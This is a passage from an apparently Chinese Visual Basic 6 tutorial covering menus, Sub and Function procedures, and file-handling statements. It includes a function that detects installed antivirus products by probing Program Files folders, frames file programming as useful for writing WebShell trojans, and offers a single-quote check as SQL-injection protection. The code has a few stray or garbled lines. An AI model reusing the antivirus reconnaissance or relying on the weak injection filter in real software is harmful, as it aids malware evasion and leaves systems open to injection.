

标题是在菜单中显示的文本，名称则是该菜单条目的名字。如果需要建立一个菜单数组，则还需要填入索引值。

填写完毕之后，可以单击“下一个”按钮，这时会自动跳到下一个菜单条目的编辑。为了建立下级菜单，可单击“→”按钮（前面会多出四个小点，表示是下级菜单）。若需要调整菜单的先后顺序，则可以使用“↑”按钮和“↓”按钮。如果需要为某一个菜单设置快捷键，可以在快捷键处进行设置。

单击“确定”按钮可以完成菜单的建立操作。此时，窗体中会出现我们编辑建立的菜单条目。单击其中的一个菜单条目，会进入代码编辑窗口，可以为该条目的 Click 事件添加相关代码。

在菜单中制作分割线的方法是：在标题处填入“-”，名称处可以填入“MenuLine”。



如果需要选中某个条目，也就是在前面加一个小钩，则只需设置条目的 Checked 属性为 True。例如：`thread(Index).Checked = True`，这里的 thread 是菜单的名称，而 Index 是菜单数组的索引值。运行后如图 1-45 所示。

格式引用：

`PopupMenu [窗体名.]菜单名`

若菜单本身位于引用菜单的这个窗体，则窗体名可以省略。以下代码是当用户单击右键时弹出菜单，为窗体的 MouseUp 事件添加代码：

```vb
Private Sub Form_MouseUp(Button As Integer, Shift As Integer, X As Single, Y As Single)
    If Button = 2 Then            ' 如果是单击右键，左键是1
        PopupMenu Form1.File      ' 弹出 File 菜单
    End If
End Sub
```

## 1.11 自定义过程和自定义函数

当一个程序段在许多地方都可以使用到时，为了减少代码的编写量，提高代码的复用率，我们通常将它写成一个自定义的 Sub 或者 Function。例如，MD5 加密在一个程序中的很多地方都需要用到，那么，我们就可以把它写成一个 Function，而不必在每个需要加密的地方都重头开始编写加密的代码。

Sub 和 Function 的区别在于：Sub 过程没有返回值，而 Function 函数有返回值。通常，也把 Sub 过程叫做子程序，而把 Function 过程叫做函数。它们都可以有自己的参数。

### 1.11.1 Sub 过程

Sub 过程的基本形式是：

```vb
[Private][Public] Sub 过程名([参数1，参数2……])
    ……
    [Exit Sub]
    ……
End Sub
```

这里 Sub 指明过程是子程序，没有返回值。关键字“Private”表示该 Sub 过程是私有过程，只能被本窗体或模块引用。而如果使用“Public”，则表示该 Sub 过程是公用过程，程序中的任何地方都可以调用。

Exit Sub 是用于强制退出 Sub 过程，执行该语句后，程序将不会再执行 Sub 过程中的后续语句。

下面简单举例说明，这里先不使用任何参数，在窗体的通用部分写入代码：

```vb
Private Sub CheckFile()
    If Dir(App.Path & "\Settings.ini") = vbNullString Then   ' 如果 Settings.ini 文件不存在
        Open App.Path & "\Settings.ini" For Output As #1      ' 创建 Settings.ini 文件
        Print #1, "Admin=Nohack"                              ' 将 Admin=Nohack 写入文件
        Close #1
    End If
End Sub

MsgBox "文件创建成功", vbInformation
End If
End Sub
```

上面的 CheckFile 过程是一个 Sub 过程，只需要实现一定的功能而不需要返回值，是私有的（Private）。它的作用是判断程序目录下是否存在 Settings.ini 这个配置文件，如果不存在，则创建之，并写入 Admin=Nohack 这一行到文件中。

问：App.Path 是什么意思？

答：App 也就是 Application 的意思，它被指定为当前运行的这个程序对象。App 的 Path 属性用于返回程序所在的目录。例如，我们运行 `D:\Temp\Test.exe` 这个程序，并在程序中返回 App.Path 的值，此时得到的结果将是 `D:\Temp`。`App.Path & "\Settings.ini"` 返回的是程序目录下的 `Settings.ini` 文件的完整路径。如果 Dir 函数返回了空字符串，即 `vbNullString`，则表明程序当前目录下并不存在 `Settings.ini` 这个文件。

> 提示：这里 Open 语句用于创建一个新的文件 Settings.ini，Print 语句则用于向文件中写入一行文本。在后面文件编程中，我们会详细介绍，如果大家还不是非常了解，暂不必深究。

调用这个 Sub 过程时，只需要使用 `Call 过程名(参数)` 这样的形式即可，此处使用代码：

```vb
Private Sub Form_Load()
    Call CheckFile        ' 调用 CheckFile 过程
End Sub
```

在窗体载入时，即调用 CheckFile 过程来判断文件是否存在。注意这里 CheckFile 过程没有参数，所以 CheckFile 的后面没有跟括号，但这并不表示 Sub 过程就不能有参数。请再看下面的例子，我们将一个文件夹中的所有 Mp3 文件添加到 ListBox 中，建立 Sub 过程 FindMp3，在窗体的通用部分添加代码：

```vb
Private Sub FindMp3(ByVal UserFolder As String)
    Dim Fso As Object, mFolder As Object, mFile As Object    ' 声明 Fso、文件夹 mFolder、文件 mFile 三个对象
    Set Fso = CreateObject("scripting.filesystemobject")      ' 创建 Fso 对象
    Set mFolder = Fso.getfolder(UserFolder)                   ' 获取文件夹对象
    For Each mFile In mFolder.Files                           ' 用 For Each 进行循环判断
        If Right(mFile.Name, 3) = "mp3" Then                  ' 如果扩展名是 mp3，则添加到 List1 中
            List1.AddItem mFile.Name
        End If
    Next
End Sub
```

可以看到 FindMp3 是一个 Sub 过程，但是它有一个字符串类型的参数 UserFolder，这个参数就是我们需要在其中寻找 Mp3 的文件夹路径。关键字 ByVal 的意思是按值传递。在 VB 中，参数的传递方式有两种：一种是按值传递（ByVal），一种是按地址传递（ByRef，也可以说成是按引用传递：By Reference）。按值传递时，是直接把实际值传递给 Sub 过程的；而按地址传递时，则是传送参数在内存中的地址。存中的实际地址给被调用者。默认情况下，参数是按地址传递的，因此这里我们必须在地址前面加一个 `ByVal` 使其按值传递。

在窗体载入时调用此过程：

```vb
Private Sub Form_Load()
    Call FindMp3("D:\music\Moving3\")   ' D:\music\Moving3\是参数的值
End Sub
```

在这里，`D:\music\Moving3\` 是参数 `UserFolder` 的值。Sub 过程可以有多个参数，读者朋友们在编写代码时可以自己添加。上面的程序运行后如图 1-46 所示。

以上的代码中，我们的 Sub 过程都是使用 Private 定义的，直接添加到窗体的通用部分即可；如果需要在很多窗体中使用这个子程序，则可以用 Public 来定义 Sub 过程，将代码写到一个模块中即可。新建模块可以通过菜单栏中的“工程->添加模块”来实现。

添加 Sub 过程和 Function 函数的时候，可以通过“工具->添加过程”来快速建立，如图 1-47 所示。

### 1.11.2 Function 函数

接下来我们了解一下 Function 函数，它与 Sub 过程相比，多了一个函数返回值。其基本形式是：

```vb
[Public|Private] Function 函数名[(参数1，参数2…)] [As 返回值类型]
    ……
    [Exit Function]
    ……
End Function
```

这里 Public 和 Private 是函数的作用域，函数返回值可以是任何一种数据类型，也包括自定义数据类型。使用 `Exit Function` 可以强制退出 Function 函数而不再执行后续语句。

因为 VB 中进行数据库查询同样需要防注入，下面简单写一个判断用户输入合法性的函数。新建一个模块，方法是在菜单栏中单击“工程->添加模块”，在模块中添加如下代码：

```vb
Public Function CheckStr(ByVal UserInput As String) As Boolean
    Dim i As Integer                 ' 声明计数变量
    CheckStr = True                  ' 初始没有非法字符
    For i = 1 To Len(UserInput)      ' 循环判断字符的合法性
        If Mid(UserInput, i, 1) = Chr(39) Then   ' 如果第 i 个字符为单引号
            CheckStr = False         ' 表明有非法字符，CheckStr 变成 False
            Exit For                 ' 如果有非法字符，退出循环
        End If
    Next i
End Function
```

简单解释下这段代码。首先，初始 `CheckStr` 的值是 True，也就是说，没有非法字符存在。大家也看到了，在代码里面是可以直接给函数本身赋值的。然后，从第一个字符开始判断用户是否输入了单引号，直到最后一个字符。`Len(UserInput)` 是字符串的总长度。如果第 i 个字符是单引号，则 `CheckStr` 的值变成 False，而且直接退出 For 循环。请大家注意，这里 39 是单引号的 ASCII 码。此时，函数的返回值是一个 Boolean 类型的值，如果用户输入中存在非法字符，则返回 False；不存在非法字符，则返回 True。

在窗体中新建两个 TextBox 和一个命令按钮，为按钮的单击事件添加代码：

```vb
Private Sub Command1_Click()
    If CheckStr(Text1.Text) And CheckStr(Text2.Text) Then   ' 如果 Text1 和 Text2 都合法
        MsgBox "用户输入没有非法字符！", vbInformation, "Ok"
    Else
        MsgBox "对不起，你输入了非法字符", vbCritical, "警告"
    End If
End Sub
```

图 1-48 使用 Function 函数判断输入合法性。

上面的代码中，`CheckStr(Text1.Text)` 和 `CheckStr(Text2.Text)` 都是返回一个布尔值，因此可以用 And 连接，作为逻辑表达式。可以看出，调用 Function 函数是非常简单的，直接用：函数名（参数1，参数2，…）就可以了。上面的程序运行后如图 1-48 所示。

为了进一步说明 Function 函数的使用，我再为大家简单举例，采用枚举文件或文件夹的方式来判断系统中安装了什么杀毒软件。因为杀毒软件只给 Windows 报告自身的状态，而不会给其他软件报告状态，所以普通的软件只能靠比较原始的方式来判断系统中安装了哪种类型的杀毒软件：

- 方法1——枚举进程，查找杀毒相关进程，判断杀毒软件类型。
- 方法2——在 Program Files 程序目录查找与杀毒软件相关的文件或文件夹，判断杀毒软件类型，通常杀毒软件都是安装在程序目录的。
- 方法3——枚举服务，查找杀毒软件必须的服务，以此判断杀毒软件类型。

下面的代码采用了最简单的第二种思路。新建一个模块，在模块中输入下面的代码：

```vb
' 声明 API 函数 SHGetFolderPath：该函数用于获取 Program Files 文件夹路径
Public Declare Function SHGetFolderPath Lib "shfolder.dll" Alias "SHGetFolderPathA" _
    (ByVal hWndOwner As Long, ByVal nFolder As Long, _
     ByVal hToken As Long, ByVal dwReserved As Long, _
     ByVal lpszPath As String) As Long

Public Const CSIDL_PROGRAM_FILES As Long = &H26
Public Const SHGFP_TYPE_CURRENT As Long = &H0

Public Function CheckAntiVirusSoft() As String
    ' 枚举文件和文件夹判断杀毒软件是否安装
    Dim StrPF As String
    StrPF = Space(255)
    SHGetFolderPath Form1.hWnd, CSIDL_PROGRAM_FILES, SHGFP_TYPE_CURRENT, ByVal 0, StrPF
    StrPF = Left(StrPF, InStr(StrPF, Chr(0)) - 1) & "\"

    ' StrPF 中保存了 Program Files 文件夹的路径
    ' 下面判断是否有标志性的文件和文件夹
    CheckAntiVirusSoft = "没有检测到杀毒软件"
    Dim fso    ' 声明 FSO 对象
    Set fso = CreateObject("scripting.filesystemobject")
    If fso.folderexists(StrPF & "\Rising") Then
        CheckAntiVirusSoft = "已安装瑞星杀毒软件"
    ElseIf fso.fileexists(StrPF & "\Kingsoft\Kingsoft Internet Security\kav32.exe") Then
        CheckAntiVirusSoft = "已安装金山杀毒软件"
    ElseIf fso.folderexists(StrPF & "\Kaspersky Lab") Then
        CheckAntiVirusSoft = "已安装卡巴斯基杀毒软件"
    ElseIf fso.folderexists(StrPF & "\ESET\ESET NOD32 Antivirus") Then
        CheckAntiVirusSoft = "已安装 ESET NOD32 杀毒软件"
    ElseIf fso.folderexists(StrPF & "\Mozhe\AnanClient") Then
        CheckAntiVirusSoft = "已安装墨者安全专家软件"
    End If
End Function
```

上面的 `CheckAntiVirusSoft` 函数在调用后返回一个字符串，以表明计算机中是否安装了杀毒软件，若已安装，就返回安装了什么类型的杀毒软件。当然，上面示例的代码还是比较粗糙的，仅仅是为大家提供了一种思路。

以上程序段中使用了 API 函数 `SHGetFolderPath`，这在后面的章节中将会进行比较深入的介绍，读者朋友在这里若不理解，可以不深究。`Fso.FolderExists` 是用来判断文件夹是否存在的一个方法，这在后面介绍 FSO 对象的时候会有很详细的介绍，大家在这里简单理解一下即可。可以看出，这里函数 `CheckAntiVirusSoft` 是没有参数的。

下面我们在窗体中调用该函数，并直接赋值给窗体的 Caption 属性：

```vb
Private Sub Form_Load()
    Me.Caption = CheckAntiVirusSoft    ' 将函数返回值赋值给窗口标题
End Sub
```

图 1-49 Function 函数判断已安装的杀毒软件类型。

程序运行后如图 1-28 所示。

自定义过程（Sub 子程序和 Function 函数）在编写较大的程序时使用非常普遍，它可以减少代码的编写量。例如笔者在最近编写的一个程序中，就建立了 29 个自定义过程。但需要注意的是，自定义过程的命名必须规范，必须是一看就能明白它的功能和作用。例如，上面的 `CheckAntiVirusSoft` 函数就最好不要命名为 `CheckAVS` 这样的缩写形式。另外，在自定义函数开头声明处，最好有一行注释，用于说明自定义函数的功能以及各个参数的作用。这在开发代码量超过 2 万行的程序时显得非常重要。

## 1.12 本章小结

本章中我们大致认识了 VB，学习了 VB 的数据类型、语法基础、基本控件的使用，还知道了怎样建立和使用菜单，怎样建立和使用自定义函数，这在今后的编程中是十分有用的。基础内容应该常常巩固，读者朋友们可以多次练习书中提供的代码实例。

## 第二章

## 文件编程

## 2.1 引言

文件编程是 VB 程序设计中的重要组成部分。了解完这部分内容，我们将可以很容易地对文件和文件夹进行操作，包括文件和文件夹的创建、删除、重命名等。文件编程在脚本木马中使用得非常多（ASP 木马、PHP 木马等），通常一个 WebShell 的重要功能就是在线管理文件和文件夹。所以，多多了解这方面的内容，对脚本木马的编写也是非常有帮助的。

**问：WebShell 是什么？**

**答：**这里我引用百度百科中的描述。顾名思义，“WEB”的含义显然是需要服务器开放 WEB 服务，“Shell”的含义是取得对服务器某种程度上的操作权限。WebShell 常常被称为匿名用户（入侵者）通过网站端口对网站服务器的某种程度上操作的权限。由于 WebShell 其大多是以动态脚本的形式出现，也有人称之为网站的后门工具。实际上，很多时候我们所指的 WebShell 就是脚本木马了。

VB 中文件编程可以采用以下两种方式：

- a) 采用传统的文件系统访问方法（使用 Open 语句等进行文件操作）。
- b) 采用 FSO 对象来操作。FSO 是 File System Object（文件系统对象）的缩写形式。

相对而言，我们更推荐 FSO 对象来进行文件和文件夹操作，因为它采用了对象和集合的方法，代码更加直观，代码量也相对更少一些。下面这段描述引自 MSDN：

> 从 Visual Basic 的第一版直到如今，文件处理都是通过使用 Open 语句以及其它一些相关的语句和函数（在下面列出）来实现的。这些机制将逐步被淘汰而转向使用 FSO 对象模型，但是在 VB6 中仍得到完全支持。

## 2.2 常用的文件系统操作语句

我们在前面介绍了 Dir 函数（用于返回表示一个文件名或文件夹名的字符串），这里，我们介绍更多与文件和文件夹操作有关的语句和函数。

### 2.2.1 ChDrive 语句

该语句用于改变当前默认的驱动器。它的基本形式是：`ChDrive 驱动器`。例如，下面的语句用于将默认驱动器换成 D 盘：

```vb
Private Sub Form_Load()
    ChDrive "D"        ' 使"D"成为当前驱动器
End Sub
```

那么，这个默认的驱动器是干什么用的呢？它实际指定的是一个缺省值，也就是说，你在一个地方没有指定驱动器，就使用这个值。下面举例说明。首先我们在窗体中画一个 DriveListBox 控件（驱动器列表控件），直接按 F5 运行，如图 2-1 所示，它显示的是 C 盘，因为程序本身的根路径是在 C 盘。接下来我们为窗体载入事件添加下面的代码：

```vb
ChDrive "D:"      ' 改变默认驱动器到 D 盘
```

再次按 F5 运行，发现什么了？如图 2-2 所示。我们的默认驱动器是不是变成 D 了？这也就是 ChDrive 语句的用途所在了。这里请大家注意，设置的默认驱动器必须是存在的，否则会出现错误，提示“设备不可用”。

### 2.2.2 ChDir 语句

该语句与 ChDrive 类似，不过它是用于改变当前默认文件夹的。其基本形式是：`ChDir 路径`。那么，这里改变默认文件夹有什么用处呢？举例说明一下。在窗体中画一个 FileListBox 控件（文件列表控件），再在窗体载入事件中添加下面的代码：

```vb
Private Sub Form_Load()
    ChDir "D:\Music"      ' 改变默认路径到 D:\Music
End Sub
```

按下 F5 运行，运行之后关闭，再次运行，如图 2-3 所示，文件列表框中的路径是 `D:\Music`。如果这里不改变默认路径，则默认路径是可执行文件自身所在的路径，如图 2-4 所示。这里同样需要大家注意，指定的默认路径必须是存在的，否则会产生错误提示“路径未找到”。

### 2.2.3 MkDir 语句

`MkDir` 语句用于创建一个新的文件夹。其基本形式是：`MkDir 路径`。例如，我们需要创建 `D:\Temp2` 这个文件夹，就可以使用：`MkDir "D:\Temp2"`。但是，请大家注意，这里创建的文件夹必须是不存在的，否则，会产生错误提示“路径/文件访问错误”，如图 2-5 所示。

> 提示：这里的参数路径可以不包含驱动器，如果没有包含，则在默认的路径上面创建该文件夹。例如，我们设置 `D:\Music` 作为默认路径，再使用语句 `MkDir "Temp2"`，就会创建 `D:\Music\Temp2` 文件夹。

### 2.2.4 RmDir 语句

该语句用于删除一个文件夹，Rm 是 Remove 的缩写。基本形式是：`RmDir 路径`。参数路径中可以包括驱动器名，也可以不包括，如果没有包括，则启用默认的路径，请参照上面的提示。例如，我们要删除 `D:\Temp2` 这个文件夹，就使用：

```vb
RmDir "D:\Temp2"    ' 移除文件夹 D:\Temp2
```

注意了，这里删除的文件夹必须是存在的，否则会提示“路径未找到”。另外，删除的这个文件夹必须是空的，否则会出现图 2-5 所示的错误“路径/文件访问错误”。在删除一个非空文件夹时，应该先删除其包含的所有文件和文件夹。

### 2.2.5 CurDir 函数

`CurDir` 函数用于返回对应驱动器当前的默认路径。它有一个参数，其基本形式是：`CurDir([驱动器])`。这里参数驱动器可以省略，也就是说，它是可选的。如果省略，则 CurDir 会返回当前驱动器所使用的默认路径。下面的例子是 CurDir 返回默认路径：

```vb
' 假设 C 驱动器的当前路径为 "C:\Program Files\Microsoft\Visual Studio\VB98"
' 假设 D 驱动器的当前路径为 "D:\Temp"
' 假设 C 为当前的驱动器
Dim MyPath
MyPath = CurDir           ' 返回 "C:\Program Files\Microsoft\Visual Studio\VB98"
MyPath = CurDir("C")      ' 返回 "C:\Program Files\Microsoft\Visual Studio\VB98"
MyPath = CurDir("D")      ' 返回 "D:\Temp"
```

### 2.2.6 Kill 语句

`Kill` 语句用于从磁盘中删除一个文件。它的基本形式是：`Kill 文件路径`。例如，下面的语句可以删除文件 `D:\Temp2\1.txt`：

```vb
Kill "D:\Temp2\1.txt"
```

图 2-6 需要删除的一个文件夹下所有的 txt 文件。

请注意，这里的文件必须是存在的，否则会产生错误提示“文件未找到”。另外，在 Windows 中，Kill 语句支持通配符 `*`（多字符）和 `?`（单字符）来删除满足指定条件的多个文件。简单举例说明，假设我们需要删除图 2-6 所示的所有 txt 文件，可以使用语句：

```vb
Kill "D:\Temp2\新建文件夹\*.txt"    ' 删除 D:\Temp2\新建文件夹下的所有 txt 文件
```

`*.txt` 表示所有文件名以 `.txt` 结尾的文件。而 `?` 则是单字符的匹配，请看下面的语句：

```vb
Kill "D:\Temp2\新建文件夹\21?.txt"    ' 删除所有文件名以 21 开头的 txt 文件
```

上面的语句就可以删除以 21 开头的 txt 文件，请注意，这里 `?` 只能代表一个字符。假设有文件“2122.txt”，它就无法删除了，因为 21 后面还有两个字符嘛。

### 2.2.7 Name 语句

`Name` 语句用于重命名一个文件或文件夹，它的基本形式是：`Name 旧的路径 As 新的路径`。例如，我们需要将 `D:\Temp2` 这个文件夹命名为 `Temp3`，则可以使用语句：```vb
Name "D:\Temp2" As "D:\Temp3"
```

在更改文件夹名称的同时，我们还可以移动它的位置。例如，我们将 `D:\Temp2` 变到 `D:\Temp\Temp3`，可以使用代码：

```vb
Name "D:\Temp2" As "D:\Temp\Temp3"
```

> 注意：在一个已打开的文件上使用 Name，会产生错误，必须在改变名称之前先关闭打开的文件。Name 参数不能包括多字符（*）和单字符（?）的通配符。

### 2.2.8 FileCopy 语句

该语句用于复制一个文件，它的基本形式是：`FileCopy 源文件路径, 目标文件路径`。例如，下面的语句用于将 `D:\Temp3\1111.txt` 复制到 `D:\Temp3\2222.txt`：

```vb
FileCopy "D:\Temp3\1111.txt", "D:\Temp3\2222.txt"
```

请注意，如果想要对一个已打开的文件使用 FileCopy 语句，则会产生错误。

### 2.2.9 FileDateTime 函数

该函数用于返回文件被创建或最后被修改的时间，其基本形式是：`FileDateTime(文件路径)`。函数的返回值即所得的日期和时间。例如，我们返回 `D:\Temp3\1111.txt` 的创建或最后修改的日期和时间：

```vb
MsgBox FileDateTime("D:\Temp3\1111.txt")
```

### 2.2.10 FileLen 函数

该函数用于返回一个文件的字节数。当调用 FileLen 函数时，如果所指定的文件已经打开，则返回的值是这个文件在打开前的大小。它的基本形式是：`FileLen(文件路径)`，函数的返回值是文件字节数。请看下面的代码示例：

```vb
Dim MySize
MySize = FileLen("D:\Temp3\1111.txt")    ' 返回文件 D:\Temp3\1111.txt 的字节长度
```

请注意，这里的文件必须是存在的，否则会产生错误提示“路径未找到”。

### 2.2.11 GetAttr 函数

该函数用于返回一个文件或文件夹的属性。其基本形式是：`GetAttr(文件路径)`，函数返回值是下面这些属性值的总和：

| 常数 | 值 | 描述 |
|---|---:|---|
| vbNormal | 0 | 常规 |
| vbReadOnly | 1 | 只读 |
| vbHidden | 2 | 隐藏 |
| vbSystem | 4 | 系统文件 |
| vbDirectory | 16 | 目录或文件夹 |
| vbArchive | 32 | 上次备份以后，文件已经改变 |
| vbAlias | 64 | 指定的文件名是别名 |

> **注意：**这些常数是由 VBA 指定的，在程序代码中的任何位置，都可以使用这些常数来替换真正的值。

若要判断是否设置了某个属性，在 GetAttr 函数与想要得知的属性值之间使用 And 运算符逐位比较。如果所得的结果不为零，则表示设置了这个属性值。例如，在下面的 And 表达式中，如果档案（Archive）属性没有设置，则返回值为零：

```vb
Result = GetAttr(FName) And vbArchive
```

如果文件的档案属性已设置，则返回非零的数值。下面简单举例说明：

```vb
If GetAttr("D:\Temp3\1111.txt") And vbHidden Then
    MsgBox "文件1111.txt有隐藏属性"  ' 如果有隐藏属性
End If
```

在上面的代码中，如果 `D:\Temp3\1111.txt` 文件被设置了隐藏属性，则 `GetAttr("D:\Temp3\1111.txt") And vbHidden` 会返回一个非 0 值，此时执行中间的语句。  
关于 SetAttr 函数，它的功能是设置文件和文件夹的属性。在第一章中我们有介绍到，这里不再作更多的介绍。

## 2.3 传统的文件系统访问方法

传统的文件访问方法即使用 Open、Get、Write、Print、Close 等语句来进行操作。文件本身除了包括一系列定位在磁盘上的相关字节外，再也没有其他东西。当应用程序访问一个文件时，必须假定字节表示什么（字符、数据记录、整数、字符串等等）。应根据文件包括什么类型的数据，使用合适的文件访问类型。在 VB 中，有三种文件访问的类型：

- 顺序型——适用于读写在连续块中的文本文档。
- 随机型——适用于读写有固定长度记录结构的文本文档或者二进制文件。
- 二进制型——适用于读写任意有结构的文件。

顺序的访问是为普通文本文件的使用设计的。文件中每一个字符都被假设为代表一个文本字符或者文本格式序列，比如换行符（NL）。数据被存储为 ANSI 字符。

而随机型访问打开的文件则认为是由相同长度的记录集合组成。可以使用用户定义的类型来创建由各种各样的字段组成的记录，每个字段可以有不同的数据类型。

二进制访问允许使用文件来存储所希望的数据，除了没有数据类型或者记录长度的含义以外，它与随机访问很相似。然而，为了能够正确地对它检索，必须精确地知道数据是如何写到文件中的。

### 2.3.1 使用顺序文件访问方法

没有分成记录的文件，使用顺序型访问最好。例如，我们访问使用记事本创建的文件，最好就使用顺序文件访问方法。

顺序型访问不太适于存储很多数字，因为每个数字都要按字符串存储。一个四位数将需要 4 个字节的存储空间，而不是作为一个整数来存储时只需 2 个字节。

#### 1. 顺序文件的打开

当以顺序型访问打开一个文件时，可执行以下操作：

- 从文件读入字符（Input）
- 输出字符到文件中（Output）
- 把字符追加到文件（Append）

文件的打开使用 Open 语句，其基本形式是：`Open pathname For mode [Access access] [lock] As [#]filenumber [Len=reclength]`。Open 语句的几个参数部分说明如下：

| 部分 | 描述 |
|---|---|
| pathname | 必要。字符串表达式，指定文件名。该文件名可能包括目录、文件夹及驱动器。 |
| mode | 必要。关键字。指定文件方式，有 Append、Binary、Input、Output 或 Random 方式。如果未指定方式，则以 Random 访问方式打开文件。 |
| access | 可选。关键字。说明打开的文件可以进行的操作，有 Read、Write 或 Read Write 操作。 |
| lock | 可选。关键字。说明限定于其他进程打开的文件的操作。有 Shared、Lock Read、Lock Write 和 Lock Read Write 操作。 |
| filenumber | 必要。一个有效的文件号，范围在 1 到 511 之间，使用 FreeFile 函数可得到下一个可用的文件号。 |
| reclength | 可选。小于或等于 32,767（字节）的一个数。对于用随机访问方式打开的文件，该值就是记录长度。对于顺序文件，该值就是缓冲字符数。 |

打开顺序文件时，Mode 参数的可选值有：Input、Output、Append。  
请注意，如果 pathname 指定的文件不存在，那么在用 Append（追加）、Binary（二进制）、Output（输出到文本）或 Random（随机）方式打开文件时，可以建立这一文件。但是，以 Input（读入字符）方式打开时，则必须要求文件已经存在，否则会出现错误。第二，如果文件已由其他进程打开，且不允许指定的访问类型，则 Open 操作失败，会有错误发生。如果 mode 是 Binary 方式，即以二进制方式访问该文件，则 Len 子语句会被忽略掉，它将不会起任何作用。

> **注意：**在 Binary（二进制）、Input（读入字符）和 Random（随机）方式下，可以用不同的文件号打开同一文件，而不必先将该文件关闭。在 Append（追加）和 Output（输出到文本）方式下，如果要用不同的文件号打开同一文件，则必须在打开文件之前先关闭该文件。

举例说明一下 Open 语句的用法。我们需要打开 `D:\Temp3\1111.txt` 这个文件并读取内容（Input），且锁定不让其他程序读取它，就可以使用代码：

```vb
Open "D:\Temp3\1111.txt" For Input Access Read Lock Read As #1
```

上面的代码中，Input 是指定打开文件的方式为“读入”，Access 表明打开文件进行读操作，Lock Read 则规定打开文件后锁定文件不允许进行读操作。如果此时，我们尝试双击打开此文本文件，则会得到提示“另一个程序正在使用此文件，进程无法访问”，如图2-7所示。下面，我们锁定文件不允许对其进行写操作，代码如下：

```vb
Open "D:\Temp3\1111.txt" For Input Access Read Lock Write As #1
```

图2-7 Lock Read 打开文件后锁定文件不可读

